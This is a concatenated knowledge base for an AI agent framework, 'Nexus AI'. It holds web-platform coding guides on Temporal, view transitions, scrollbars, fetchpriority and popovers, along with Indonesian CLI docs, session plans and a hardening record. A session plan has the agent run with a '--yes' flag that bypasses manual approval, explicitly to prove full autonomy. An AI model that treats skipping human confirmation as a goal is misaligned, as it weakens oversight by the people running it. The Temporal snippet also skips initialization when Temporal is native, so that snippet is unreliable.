Unsupported in: Safari.

For environments without native `Temporal` support, you must conditionally load the `@js-temporal/polyfill`.

```javascript
// Check if Temporal is supported natively
(async () => {
  if (typeof Temporal === 'undefined') {
    // Load the polyfill conditionally
    const module = await import("https://esm.sh/@js-temporal/polyfill");
    globalThis.Temporal = module.Temporal;
    // Extend Date.prototype if needed
    Date.prototype.toTemporalInstant = module.toTemporalInstant;
    initializeApp();
  }
})();

function initializeApp() {
  // Your app logic here
  console.log("Temporal is ready:", typeof Temporal);
}
```

### 📘 KNOWLEDGE: NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD

Cross-document view transitions allow you to create smooth, app-like transitions between different pages of a Multi-Page Application (MPA). By default, the browser performs a cross-fade, but you can customize this to match your site's aesthetic.

### Implementation Steps

#### 1. Opt-in to Cross-Document View Transitions

Both the source and destination pages must opt-in to view transitions for the browser to trigger them on navigation.

```css
/* Respect user's preference for reduced motion */
@media (prefers-reduced-motion: no-preference) {
  /* Add to a global stylesheet shared by both pages */
  @view-transition {
    /* Enables transitions for same-origin navigations */
    navigation: auto;
  }
}
```

#### 2. Customize Transition Animations (Optional)

You can target the old and new states of the transition using pseudo-elements to create effects like slides or reveals.

```css
/* Customizing the outgoing page animation */
::view-transition-old(root) {
  /* Move the old page out to the left */
  animation: 0.4s ease-in both slide-out;
}

/* Customizing the incoming page animation */
::view-transition-new(root) {
  /* Move the new page in from the right */
  animation: 0.4s ease-out both slide-in;
}

@keyframes slide-out {
  to { transform: translateX(-20%); opacity: 0; }
}

@keyframes slide-in {
  from { transform: translateX(100%); }
}
```

#### 3. Create Directional Transitions (Optional)

You may want different transition effects depending on the pages you are navigating between. For instance, when navigating from a home page to a contact page, you may want the effect of new content coming from the right. When navigating back to the home page, it wouldn't make sense to have the same effect. 

If the page you are navigating to will always have the same transition type, regardless of how you get to the page, you can specify it with `types` in the `@view-transition` rule.

```css
@media (prefers-reduced-motion: no-preference) {
  @view-transition {
    navigation: auto;
    /* Specify the types of view transitions that will always be used on this page. */
    types: previous;
  }
}
```

You can also conditionally specify transition types inside of an event listener for `pagereveal`.

```js
window.addEventListener("pagereveal", async (e) => {
  if (e.viewTransition && window.navigation?.activation) {
    // Use application-specific logic to compute a transition type
     const transitionType = yourTransitionTypeLogic(navigation.activation.from, navigation.activation.entry);
    e.viewTransition.types.add(transitionType);
  }
});
```

Then, use the `:active-view-transition-type()` pseudo selector to apply the different animations for each type.

```css
:active-view-transition-type(next) {
  &::view-transition-old(root) {
    animation-name: slide-out-next;
  }

  &::view-transition-new(root) {
    animation-name: slide-in-next;
  }
}
:active-view-transition-type(previous) {
  &::view-transition-old(root) {
    animation-name: slide-out-previous;
  }

  &::view-transition-new(root) {
    animation-name: slide-in-previous;
  }
}
```

### Fallback strategies

Baseline status for View transitions: Newly available. It's been Baseline since 2025-10-14.
Supported by: Chrome 111 (Mar 2023), Edge 111 (Mar 2023), Firefox 144 (Oct 2025), and Safari 18 (Sep 2024).

Cross-document view transitions has limited availability.
Supported by: Chrome 126 (Jun 2024), Edge 126 (Jun 2024), and Safari 18.2 (Dec 2024).
Unsupported in: Firefox.

If a browser does not support view transitions, or cross-document view transitions, it will perform a standard instant page navigation. Cross-document view transitions are a progressive enhancement; the core functionality of the site remains unaffected.

To check for support in JavaScript:

```javascript
if ('onpagereveal' in window) {
  // Browser supports cross-document view transitions
}
```

Baseline status for Navigation API: Newly available. It's been Baseline since 2026-01-13.
Supported by: Chrome 102 (May 2022), Edge 102 (May 2022), Firefox 147 (Jan 2026), and Safari 26.2 (Dec 2025).

If a browser does not support the Navigation API, you will not be able to use it to determine a transition type. Use an alternate method for determining the transition type, or provide a fallback transition type. Otherwise, the browser will perform a standard instant page navigation.

To check for support in JavaScript:

```javascript
if (window.navigation?.activation) {
  // Browser supports the Navigation API
}
```

### 📘 KNOWLEDGE: NEXUS_CUSTOMIZE-SCROLLBAR-COLOR-AND-THICKNESS.MD

# Customize the color or thickness of a scrollbar

You can customize the appearance of scrollbars using the standard CSS properties `scrollbar-color` and `scrollbar-width`.

*   **`scrollbar-color`**: Accepts two `<color>` values. The first applies to the thumb (the moving part), and the second to the track (the fixed background).
*   **`scrollbar-width`**: Accepts `auto` (default), `thin` (a thinner variant), or `none` (hides the scrollbar completely while maintaining scrollability).

## Apply `scrollbar-color` and `scrollbar-width`

MANDATORY: Use `scrollbar-color` and `scrollbar-width` on the scrollable container.

When using `scrollbar-color`, use CSS variables to keep thumb and track colors separate, for readability and maintainability (especially when using fallbacks).

```css
.scroller {
  --scrollbar-thumb: var(--color-neutral-70);
  --scrollbar-track: var(--color-neutral-90);

  scrollbar-color: var(--scrollbar-thumb) var(--scrollbar-track);
}
```

## Fallback strategies

Baseline status for scrollbar-width: Newly available. It's been Baseline since 2024-12-11.
Supported by: Chrome 121 (Jan 2024), Edge 121 (Jan 2024), Firefox 64 (Dec 2018), and Safari 18.2 (Dec 2024).

### Fallbacks & browser support for scrollbar-color

Baseline status for scrollbar-color: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 121 (Jan 2024), Edge 121 (Jan 2024), Firefox 64 (Dec 2018), and Safari 26.2 (Dec 2025).

This feature is progressive enhancement and does not always require fallbacks.

If the styling is important and the user's Baseline target is "Baseline Widely Available" or earlier, you SHOULD include the non-standard `::-webkit-scrollbar` pseudo-elements as fallbacks.

Wrap legacy fallbacks in an `@supports not (scrollbar-color: auto)` block to prevent conflicts between standard properties and legacy WebKit selectors in browsers that support both natively.

If you are using custom properties to define colors, these will cascade to the legacy WebKit selectors automatically. You do NOT need to duplicate them.

```css
/* Legacy fallback for WebKit/Blink browsers */
@supports not (scrollbar-color: auto) {
  .scroller::-webkit-scrollbar {
    /* Must define base size in WebKit for custom colors to be visual */
    width: 12px;
    height: 12px;
  }

  .scroller::-webkit-scrollbar-thumb {
    background: var(--scrollbar-thumb);
  }

  .scroller::-webkit-scrollbar-track {
    background: var(--scrollbar-track);
  }
}
```

### 📘 KNOWLEDGE: NEXUS_DETECT-INITIAL-VISIBILITY-STATE.MD

Determining if a page was initially loaded in the background (e.g., opened in a new background tab) is critical for accurate performance monitoring. Pages loaded in the background often have delayed rendering and longer metric times (like First Contentful Paint). Identifying these pages allows you to filter them out of performance analytics to avoid skewed data.

The most accurate way to measure this is by using the `VisibilityStateEntry` API, which reliably records visibility changes on the browser's performance timeline, regardless of when your script actually executes.

### Detecting initial visibility and background time

MANDATORY: Use `performance.getEntriesByType('visibility-state')` to access the exact visibility history. Do not rely solely on checking `document.visibilityState` at execution time, as it is susceptible to race conditions.

```javascript
/**
 * Accurately determines visibility state history using the Performance API.
 */
function getVisibilityInfo() {
  // Retrieve VisibilityStateEntry members:
  const entries = performance.getEntriesByType('visibility-state');
  
  if (entries.length > 0) {
    const firstEntry = entries[0];
    
    // If the first performance entry for visibility is 'hidden',
    // the page was loaded in the background.
    const initiallyBackgrounded = firstEntry.name === 'hidden';
    
    // Find the precise, high-resolution timestamp of when the page 
    // was first backgrounded.
    let timeBackgrounded = null;
    for (const entry of entries) {
      if (entry.name === 'hidden') {
        // entry.startTime is used because it provides the exact browser 
        // timestamp of the visibility change, which is required for precision
        timeBackgrounded = entry.startTime;
        break;
      }
    }

    return {
      initiallyBackgrounded,
      timeBackgrounded
    };
  }
}
```

### Fallback strategies

Page visibility state has limited availability.
Supported by: Chrome 115 (Jul 2023) and Edge 115 (Jul 2023).
Unsupported in: Firefox and Safari.

For unsupported environments, you may fall back to checking the `document.visibilityState` property or listening for the `visibilitychange` event.

**MANDATORY:** You must understand that this fallback approach is often **highly inaccurate for determining initial background state**. Because scripts can load and execute asynchronously, a page could be opened in a background tab and then foregrounded by the user *before* your script has finished downloading and executing. When your script finally runs, `document.visibilityState` will synchronously read as `'visible'`, and you will incorrectly assume the page was loaded in the foreground, completely missing its initial hidden state. Furthermore, the fallback timestamp lacks the internal precision of the Performance API. If precision is a high priority, do not use the fallback.

```javascript
/**
 * Fallback implementation using document.visibilityState.
 * This approach is prone to race conditions if the script loads asynchronously.
 */
function getFallbackVisibilityInfo() {
  // Check the state exactly when this script executes.
  // This will fail to detect an initial background state if the user 
  // foregrounded the page before this script executed.
  let initiallyBackgrounded = document.visibilityState === 'hidden';
  
  // If it's hidden now, we approximate that it was hidden from load (time 0).
  let timeBackgrounded = initiallyBackgrounded ? 0 : null;

  // Listen for future visibility changes to capture if it is backgrounded later.
  document.addEventListener('visibilitychange', () => {
    if (document.visibilityState === 'hidden' && timeBackgrounded === null) {
      // performance.now() is used here as a fallback, but it only gives 
      // us the time the event listener fired, not the precise internal 
      // browser time the visibility actually changed.
      timeBackgrounded = performance.now();
    }
  });

  return {
    get initiallyBackgrounded() { return initiallyBackgrounded; },
    get timeBackgrounded() { return timeBackgrounded; }
  };
}

// Modern implementation using VisibilityStateEntry API.
function getVisibilityInfo() {
  // Code omitted here would be the same modern
  // implementation shown earlier in this guide
  // ...
}

// DO: Detect if the VisibilityStateEntry API is available
if ('VisibilityStateEntry' in window) {
  // DO: If VisibilityStateEntry is available, use it first:
  getVisibilityInfo();
} else {
  // DO: If VisibilityStateEntry is unavailable, fall back to `document.visibilityState`:
  getFallbackVisibilityInfo();
}
```

### 📘 KNOWLEDGE: NEXUS_DEV_COMMANDS.MD

# 🛡️ Nexus Engine: Developer Quick Start & Commands

Panduan ini dirancang khusus untuk tim pengembang yang bekerja langsung di dalam repositori **NEXUS AI** atau ingin mengintegrasikan engine ke dalam alur kerja lokal mereka.

## ⚙️ Metode Eksekusi Lokal (Node CLI)

Jika perintah `nexus` global bermasalah (misal: `MODULE_NOT_FOUND`), gunakan eksekusi `node` secara langsung dari folder root engine.

### 1. Siklus Standar (SDLC)
```powershell
# Menjalankan siklus penuh (Audit -> Plan -> Execute)
nexus run

# Menjalankan Audit saja
nexus audit

# Menjalankan mode otomatis (tanpa konfirmasi manual)
nexus run --yes
```

### 2. Protokol Intelijen (Harvesting)
Gunakan untuk menyerap dokumentasi dari proyek lain ke dalam repositori pusat ini.
```powershell
# Harvest dari proyek target (gunakan path absolut)
nexus harvest "C:/xampp/htdocumentation/docs/NAMA_PROYEK"
```

### 3. Protokol Sinkronisasi (Mass Refactor & Update)
Setelah melakukan harvest, jalankan dua protokol ini untuk mengupdate HUB dan Skills Agent.
```powershell
# Protocol 1: Golden -> HUB (memory/long_term/)
nexus refactor

# Protocol 2: HUB -> Skills (skill/)
nexus update-skills
```

### 4. Manajemen & Bantuan
```powershell
# Melihat daftar seluruh keahlian (Skill) Agent yang tersedia
nexus skills

# Menampilkan bantuan (Help)
nexus help

# Melepas (Uninstall) Brain Nexus dari proyek
nexus dell
```

---

## 🚩 Parameter & Flags Tambahan

| Flag | Pilihan | Deskripsi |
| :--- | :--- | :--- |
| `--mode` / `-m` | `learning` \| `efficient` | `learning` (default) untuk edukasi, `efficient` untuk kecepatan. |
| `--root` / `-r` | `[path]` | Menentukan direktori target untuk audit/eksekusi. |
| `--yes` / `-y` | *(Boolean)* | Bypass persetujuan manual (Gunakan dengan hati-hati). |

---

## 🛠 Workflow Rekomendasi (The Golden Flow)

1.  **Harvest**: Ambil pengetahuan terbaru dari proyek aktif.
    `nexus harvest "C:/path/to/project"`
2.  **Refactor**: Integrasikan pengetahuan tersebut ke dalam HUB Global.
    `nexus refactor`
3.  **Update**: Sinkronkan instruksi Agent agar mereka "belajar" hal baru.
    `nexus update-skills`
4.  **Run**: Jalankan audit akhir untuk memastikan status **Zero Flaws**.
    `nexus run --yes`

---
*Status: Verified by Nexus Orchestrator | Update: 29 April 2026*

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_API.MD

> **VERSION**: v2 | **Last Updated**: 26/05/2026


## 🎓 API WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Reparenting open top-layer elements
> **Origin**: `guides/user-experience/[persistent-top-layer-ui.md](../api/NEXUS_PERSISTENT-TOP-LAYER-UI.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
When moving an open `<dialog>`, `popover`, or fullscreen element in the DOM using traditional methods like `appendChild()` or `insertBefore()`, the browser implicitly removes the element from the DOM and re-inserts it. This removal resets the state, causing open modals, popovers, and fullscreen elements to close abruptly.

To reparent top-layer elements without interrupting the user experience or closing them, use the atomic `moveBefore()` API instead.


`moveBefore()` takes two arguments: the node to move, and a reference node to insert before (or `null` to append to the end of the new parent).

```javascript
const newParent = document.getElementById('new-container');
const dialogElement = document.getElementById('my-dialog');

// MANDATORY: Use moveBefore to ensure the <dialog> or popover stays open.
// Passing null appends it to the end of newParent.
newParent.moveBefore(dialogElement, null);
```


moveBefore() has limited availability.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), and Firefox 144 (Oct 2025).
Unsupported in: Safari.

Since `moveBefore()` is a progressive enhancement, you MUST use feature detection before calling it. For older...

#### 🔗 Traceability:
- [Source Context]([persistent-top-layer-ui.md](../api/NEXUS_PERSISTENT-TOP-LAYER-UI.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---

### 📘 KNOWLEDGE: NEXUS_GETTING-STARTED.MD

# Getting Started with Human-AI Nexus

Human-AI Nexus is a framework designed to bridge the gap between human intent and AI execution through structured documentation and automated orchestration.

## Installation

### As a CLI tool
You can install the framework globally or run it via npx:

```bash
# Recommended if not published:
npx github:Faisal-Trainer/Human-AI-Nexus

# If published to npm:
npx @faisal-trainer/human-ai-nexus
```

### For Development
Clone the repository and install dependencies:

```bash
git clone https://github.com/Faisal-Trainer/Human-AI-Nexus.git
cd Human-AI-Nexus
npm install
```

## Basic Usage

To start a standard workflow cycle (Audit -> Plan -> Execute), run:
    
```bash
npx github:Faisal-Trainer/Human-AI-Nexus nexus run
```

*Note: You can also use `npm start` if you are working within the framework source directory.*

## Core Concepts

1.  **Documentation-First**: No code is written before a plan is approved.
2.  **Traceability**: Every action is linked to an audit finding and a plan.
3.  **Recursive Audit**: The cycle repeats until "Zero Flaws" are achieved.

## Project Structure

- `agent/`: Specialized role descriptions for AI agents.
- `audit/`: Generated audit reports.
- `documentation/planning/`: Implementation plans.
- `skill/`: Technical standards and snippets.
- `src/`: Core Nexus Engine source code.

### 📘 KNOWLEDGE: NEXUS_ICONS.MD

# Generating Extension Icons

## Quick: Omit icons

If generating real icon files is impractical, **omit `icons` and `default_icon` from manifest.json entirely**. Chrome uses a default puzzle-piece icon. This is always better than referencing files that don't exist.

## Generate with Python (Pillow)

```python
# generate_icons.py
from PIL import Image, ImageDraw
import os

os.makedirs('icons', exist_ok=True)

for size in [16, 48, 128]:
    img = Image.new('RGBA', (size, size), (0, 0, 0, 0))
    draw = ImageDraw.Draw(img)
    margin = max(1, size // 16)
    draw.rounded_rectangle(
        [margin, margin, size - margin, size - margin],
        radius=size // 4,
        fill='#4688F1'
    )
    # Add a letter
    font_size = size // 2
    draw.text((size // 2, size // 2), 'E', fill='white', anchor='mm')
    img.save(f'icons/icon-{size}.png')
    print(f'Created icons/icon-{size}.png ({size}x{size})')
```

## Generate with Node.js (canvas)

```js
const { createCanvas } = require('canvas');
const fs = require('fs');
const path = require('path');

fs.mkdirSync('icons', { recursive: true });

for (const size of [16, 48, 128]) {
  const canvas = createCanvas(size, size);
  const ctx = canvas.getContext('2d');
  const r = size / 4;
  
  // Rounded rectangle
  ctx.beginPath();
  ctx.roundRect(1, 1, size - 2, size - 2, r);
  ctx.fillStyle = '#4688F1';
  ctx.fill();
  
  // Letter
  ctx.fillStyle = 'white';
  ctx.font = `bold ${size / 2}px sans-serif`;
  ctx.textAlign = 'center';
  ctx.textBaseline = 'middle';
  ctx.fillText('E', size / 2, size / 2);
  
  fs.writeFileSync(`icons/icon-${size}.png`, canvas.toBuffer('image/png'));
  console.log(`Created icons/icon-${size}.png (${size}x${size})`);
}
```

## Generate with pure SVG (no dependencies)

Create SVGs and use them directly (Chrome supports SVG icons in some contexts) or convert:

```bash
for SIZE in 16 48 128; do
  cat > "icons/icon-${SIZE}.svg" << EOF
<svg xmlns="http://www.w3.org/2000/svg" width="${SIZE}" height="${SIZE}" viewBox="0 0 ${SIZE} ${SIZE}">
  <rect width="${SIZE}" height="${SIZE}" rx="$((SIZE/4))" fill="#4688F1"/>
  <text x="50%" y="52%" text-anchor="middle" dominant-baseline="middle"
        fill="white" font-family="sans-serif" font-weight="bold" font-size="$((SIZE/2))">E</text>
</svg>
EOF
done
```

Note: For Chrome Web Store submission, PNG is required. SVG works for development.

## Manifest reference

```json
{
  "icons": {
    "16": "icons/icon-16.png",
    "48": "icons/icon-48.png",
    "128": "icons/icon-128.png"
  },
  "action": {
    "default_icon": {
      "16": "icons/icon-16.png",
      "48": "icons/icon-48.png",
      "128": "icons/icon-128.png"
    }
  }
}
```

Each file MUST match its declared size: icon-16.png = 16×16 pixels, etc.

### 📘 KNOWLEDGE: NEXUS_NEXT_SESSION_EVOLUTION_PLAN.MD

# 📅 NEXT SESSION PLAN: NEXUS AUTONOMOUS EVOLUTION
**Status**: Pending | **Assigned To**: Nexus Orchestrator
**Last Update**: 2026-05-10 18:20

---

## 🎯 Sasaran Utama
Memulai siklus **Evolusi Rekursif** di mana Nexus secara mandiri memilih, membangun, dan menyerap pengetahuan dari daftar 50 proyek PBL.

## 🛠 Langkah-Langkah Teknis
1. **Verifikasi Golden HUB**: Pastikan indeks semantik hasil "URL Shortener" sudah muncul di pencarian `nexus search url`.
2. **Quest Selection**: Memilih proyek nomor 10 (atau berikutnya) dari `50 project test TALL stack.md`.
3. **Execution Mode**: Menjalankan `node cli.js run` dengan flag `--yes` untuk membuktikan otonomi penuh.
4. **Knowledge Loop**: Menutup sesi dengan `nexus harvest` untuk memperkuat inti kecerdasan Nexus.

---
*Silakan panggil Nexus kembali saat Anda sudah siap untuk melanjutkan.*

### 📘 KNOWLEDGE: NEXUS_OPTIMIZE-PRELOAD-PRIORITY.MD

# Optimize preload priority

Preloading resources with `<link rel="preload">` signals to the browser that a resource will be needed soon. However, preloads inherit the default priority for the resource type and for images in particular this is low. Using `fetchpriority` allows you to refine this relative priority, in particular ensuring image preloads are preloaded with a high priority allowing them to start earlier and use get more bandwidth resources.

## How to implement

1. **Identify preload candidates**: Find resources that are not discovered early by the browser (e.g., video poster images or background images in CSS) but are essential for the page's appearance.
2. **Elevate critical image preloads**: For the LCP image or other critical images that are not prioritized by default, use `<link rel="preload" fetchpriority="high">` to ensure they are prioritized above other preloads. Note that fonts are already high priority by default.
3. **Deprioritize non-critical preloads**: For resources that aren't critical for the initial render (e.g., a background video or secondary fonts), use `<link rel="preload" fetchpriority="low">`.
4. **Coordinate with resource types**: Note that different `as` types have different default priorities; use `fetchpriority` to override these defaults when necessary.

## Example code

```html
<!-- Elevate priority for a video poster image that acts as the LCP candidate -->
<link rel="preload" href="/images/video-poster.jpg" as="image" fetchpriority="high">

<!-- Elevate priority for a critical LCP image that is hidden in CSS -->
<link rel="preload" href="/images/hero-background.jpg" as="image" fetchpriority="high">

<!-- Deprioritize a secondary font to avoid network contention -->
<link rel="preload" href="/fonts/secondary-font.woff2" as="font" type="font/woff2" fetchpriority="low" crossorigin>
```

## Best Practices

- **MANDATORY**: Only use `fetchpriority="high"` on at most 1-2 critical image preloads to avoid network contention and diluting the priority boost.
- **MANDATORY**: Use `fetchpriority="high"` on Largest Contentful Paint (LCP) images.
- **DO**: Limit the total number of preloads on a page to at most 2 images and 2-3 essential fonts to prevent bandwidth contention.
- **DO** use `fetchpriority="low"` for preloads that you want the browser to start early but not at the expense of critical resources (especially non-critical fonts).
- **DO** specify the `as` attribute correctly to ensure the preload will be used.
- **DO** prefer making critical resources (like LCP images) statically discoverable in HTML via `` tags rather than relying on preloads for background images.
- **DO** ensure that font preloads always have the `crossorigin` attribute (even if same-origin).
- **DO NOT** use the deprecated `importance` attribute. It has been replaced by `fetchpriority`.

## Fallback strategy

Baseline status for Fetch priority: Newly available. It's been Baseline since 2024-10-29.
Supported by: Chrome 103 (Jun 2022), Edge 103 (Jun 2022), Firefox 132 (Oct 2024), and Safari 17.2 (Dec 2023).

The `fetchpriority` attribute on `<link rel="preload">` is a progressive enhancement. Browsers that do not support it will still preload the resource using their default priority for that resource type. To ensure compatibility, always provide correct `as` and `type` attributes.

### 📘 KNOWLEDGE: NEXUS_OPTIMIZE-SCRIPT-PRIORITY.MD

# Optimize script priority

Browsers assign default priorities to scripts based on where they appear in the document and whether they have attributes like `async` or `defer`. Using `fetchpriority` gives developers explicit control to ensure critical scripts load first, while non-essential scripts stay out of the way.

## How to implement

1. **Identify critical scripts**: Determine which scripts are essential for the page's core functionality or initial user interaction.
2. **Elevate critical async scripts**: For critical scripts loaded with `async` or `defer`, add the `fetchpriority="high"` attribute to ensure they are prioritized during the discovery phase.
3. **Deprioritize non-essential scripts**: For scripts that are not needed immediately (e.g., analytics, ads, or below-the-fold widgets), add `fetchpriority="low"` and ensure they have a `async`, `defer`, or `module` attribute to avoid blocking.
4. **Sequence parser-blocking scripts**: Use `fetchpriority="low"` on parser-blocking scripts at the end of the body to prevent them from contending for bandwidth with more critical resources.

## Example code

```html
<!-- Elevate the priority of the critical app logic -->
<script src="/js/app.js" async fetchpriority="high"></script>

<!-- Deprioritize non-essential tracking scripts -->
<script src="/js/tracker.js" async fetchpriority="low"></script>

<!-- Deprioritize late-body scripts to favor critical images or CSS -->
<script src="/js/legacy-widgets.js" fetchpriority="low"></script>
```

## Best Practices

- **MANDATORY**: Only use `fetchpriority="high"` on at most 1-2 critical scripts to avoid network contention and diluting the priority boost.
- **DO** use `fetchpriority="high"` specifically for `async` scripts that are known to be critical for Interaction to Next Paint (INP).
- **DO** deprioritize scripts that are not required for the initial user experience using `fetchpriority="low"`.
- **DO NOT** use `fetchpriority` on every script tag; it should only be used to change the browser's default heuristic when it is known to be sub-optimal.
- **DO NOT** use the deprecated `importance` attribute. It has been replaced by `fetchpriority`.

## Fallback strategy

Baseline status for Fetch priority: Newly available. It's been Baseline since 2024-10-29.
Supported by: Chrome 103 (Jun 2022), Edge 103 (Jun 2022), Firefox 132 (Oct 2024), and Safari 17.2 (Dec 2023).

The `fetchpriority` attribute is a progressive enhancement. Browsers that do not support it will ignore the attribute and use their internal scheduling logic without error. No explicit feature detection or fallback logic is required for basic usage.

### 📘 KNOWLEDGE: NEXUS_PERSISTENT-APP-TOURS.MD

# Creating Persistent App Tours

Onboarding tours require overlays that persist while users interact with the highlighted features. Unlike auto popovers, manual popovers do not close when the user clicks elsewhere on the page. Combining `popover="manual"` with CSS Anchor Positioning allows you to create non-modal, tethered tour steps.

### Recommended Implementation

#### HTML
```html
<div id="feature-target">Highlight this feature</div>

<!-- MANDATORY: Enforce overlay dialog semantics and accessible name bindings -->
<div id="tour-step" popover="manual" role="dialog" aria-labelledby="tour-title">
  <!-- Assume an <h1> precedes this element in the full document outline -->
  <h2 id="tour-title">Step 1</h2>
  <p>Learn how to use this feature.</p>
  <button popovertarget="tour-step" popovertargetaction="hide">Got it</button>
</div>
```

#### CSS
```css
#feature-target {
  anchor-name: --feature-target;
}

#tour-step {
  popover: manual;
  position-anchor: --feature-target;
  position-area: right center;
  inset: auto;
  margin: 1rem;
  padding: 1rem;
  border: 1px solid blue;
  border-radius: 0.5rem;
  background: aliceblue;
}
```

#### JavaScript
```javascript
const tourStep = document.getElementById('tour-step');
tourStep.showPopover();
// MANDATORY: Programmatically route focus into the non-modal popover so keyboard/assistive technology users immediately perceive the new context
tourStep.querySelector('button').focus();
```

### Implementation Guidelines

* **MANDATORY:** Use `popover="manual"` to prevent the tour step from closing accidentally during user interaction.
* **MANDATORY:** Mark the container with `role="dialog"` and link its heading via `aria-labelledby`.
* **MANDATORY:** Shift programmatic focus inside the popover immediately after opening to prevent focus abandonment.
* **DO** use CSS Anchor Positioning to tether the tour step to the specific feature being explained.
* **DO** provide an explicit "Close" or "Next" button within the popover that uses `popovertargetaction="hide"`.

### Fallback strategies

Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).

If the browser does not support Popover, use the `@oddbird/popover-polyfill`:

```html
<script type="module">
  if (!HTMLElement.prototype.hasOwnProperty('popover')) {
    await import('https://unpkg.com/@oddbird/popover-polyfill');
  }
</script>
```

Alternatively, for legacy support without a polyfill, use `position: fixed` and manually calculate coordinates via JavaScript `getBoundingClientRect()`.

#### anchor-positioning

Anchor positioning is not natively supported by any major browser yet.

To support browsers without anchor positioning, you can choose between using a polyfill or a pure CSS fallback.

##### Option 1: Polyfill Fallback
The `@oddbird/css-anchor-positioning` polyfill can be used to emulate anchor positioning. It does not support implicit anchors, so you MUST add explicit anchor names to the trigger. Additionally, `position-area` is not supported on popovers by the polyfill, so you MUST use `anchor()` on the desired insets instead of `position-area`.

```html
<script type="module">
  if (!CSS.supports('anchor-name: --foo')) {
    await import("https://unpkg.com/@oddbird/css-anchor-positioning");
  }
</script>
```

```css
#tour-step {
  /* If using the anchor positioning polyfill with a popover, DO use `anchor()` functions instead of `position-area`. */
  left: anchor(right);
  top: anchor(top);
}
```

##### Option 2: Non-Polyfill CSS Fallback
If you prefer not to use a polyfill, you can default the tooltip to a fixed position at the bottom of the viewport using `@supports not`.

```css
@supports not (anchor-name: --foo) {
  #tour-step {
    position: fixed;
    bottom: 0;
    left: 0;
    right: 0;
    width: 100%;
    margin: 0;
    border-radius: 0;
  }
}
```

### 📘 KNOWLEDGE: NEXUS_PERSISTENT-TOAST-NOTIFICATIONS.MD

# Creating Toast Notifications

Toast notifications are transient status messages. Unlike menus, they should not close when a user interacts with other parts of the page. The popover="manual" state is ideal because it lacks "light-dismiss" behavior and allows multiple notifications to coexist.

### Implementation Guidelines

* **MANDATORY:** Use popover="manual" so the notification stays visible until explicitly closed or timed out by a script.
* **DO** use a container to manage the stacking of multiple toasts. Since popovers in the Top Layer ignore parent z-index, you must position them individually or within a common layout group.
* **DO** use sibling-index() to add margin between toast notifications so that items lower in the stack are visible.
* **DO** provide an explicit "Close" button within the toast using popovertargetaction="hide".
* **DO** use JavaScript for auto-dismissal timers (e.g., calling hidePopover() after 3000ms).
* **DO** utilize transition-behavior: allow-discrete to animate the entry and exit from the Top Layer.

### Fallback Strategies

#### popover

* **Guidance:** Use the [Popover Polyfill](https://github.com/oddbird/popover-polyfill). For legacy browsers, fall back to a fixed-position div with a high z-index.

#### sibling-index()

* **Guidance:** If sibling-index() is not supported, use the `+` operator to add margin manually. I.e. `popover + popover { margin-top: 1rem }`

#### anchor-positioning

* **Guidance:** Use the [CSS Anchor Positioning Polyfill](https://github.com/oddbird/css-anchor-positioning). For a non-polyfill fallback, default the tooltip to a fixed position at the bottom of the viewport using `@supports not (anchor-name: --foo)`.

#### transition-behavior

* **Guidance:** If transition-behavior is not supported, use JavaScript to add animation via classes as the toast element transitions in and out.

### 📘 KNOWLEDGE: NEXUS_PLAN_PLAN-1778912740316.MD

# 🛠 Implementation Plan: PLAN-1778912740316
**Ref Audit**: [AUDIT-1778912740298](../audit/audit_SUMMARY_AUDIT-1778912740298.md)
**Status**: Ready for Execution

---

## 📋 Task List & Learning Insights


---
*Generated by Nexus Orchestrator*

### 📘 KNOWLEDGE: NEXUS_PLAN_PLAN-1778912740619.MD

# 🛠 Implementation Plan: PLAN-1778912740619
**Ref Audit**: [AUDIT-1778912740611](../audit/audit_SUMMARY_AUDIT-1778912740611.md)
**Status**: Ready for Execution

---

## 📋 Task List & Learning Insights


---
*Generated by Nexus Orchestrator*

### 📘 KNOWLEDGE: NEXUS_PLAN_PLAN-1778912740718.MD

# 🛠 Implementation Plan: PLAN-1778912740718
**Ref Audit**: [AUDIT-1778912740711](../audit/audit_SUMMARY_AUDIT-1778912740711.md)
**Status**: Ready for Execution

---

## 📋 Task List & Learning Insights


---
*Generated by Nexus Orchestrator*

### 📘 KNOWLEDGE: NEXUS_PS_PROFILE_SETUP.MD

# 🔧 Setup Nexus Command Permanen (PowerShell)

Agar Anda bisa mengetik `nexus` langsung dari folder mana saja tanpa `node agent/main.js`, ikuti langkah ini:

1. Buka PowerShell Profile Anda:
   ```powershell
   notepad $PROFILE
   ```
   *(Jika file tidak ada, buat baru saat ditanya)*

2. Copy dan Paste baris berikut di akhir file:
   ```powershell
   function nexus { node "C:\Users\ACER\Desktop\NEXUS AI\agent\main.js" $args }
   ```

3. Simpan dan Restart PowerShell.

4. Sekarang Anda bisa menjalankan perintah singkat:
   ```powershell
   nexus status
   nexus sandbox --section 1
   nexus think "apa itu tall stack?"
   ```

### 📘 KNOWLEDGE: NEXUS_RECORD-NEXUS-HARDENING-JS-PS-SYNC.MD

# 📑 RECORD: Sinkronisasi Hardening Engine (JS & PowerShell)

| Detail | Deskripsi |
| :--- | :--- |
| **ID Record** | REC-NEXUS-HRD-002 |
| **Tanggal** | 2026-05-08 |
| **Status** | FINAL |
| **Topik** | Implementasi Auto-Gitignore, .htaccess, dan Restrukturisasi Panduan |

---

## 1. 🔍 Konteks
Berdasarkan analisis risiko sebelumnya (REC-NEXUS-MNG-001), ditemukan celah keamanan di mana folder `nexus/` dapat diakses publik via browser dan data audit dapat tidak sengaja masuk ke repositori Git. Perubahan ini bertujuan menyatukan standar keamanan di dua jalur instalasi utama.

---

## 2. 🛠️ Perubahan Teknis (Before vs After)

### 2.1 Perubahan pada `cli.js` (Node Engine)
*   **Before**: Instalasi hanya menyalin folder agent/workflow tanpa pengamanan direktori.
*   **After**: 
    *   Penambahan fungsi `updateGitignore` untuk injeksi otomatis entri `nexus/`.
    *   Pembuatan file `.htaccess` berisi `Deny from all` di root folder Nexus.
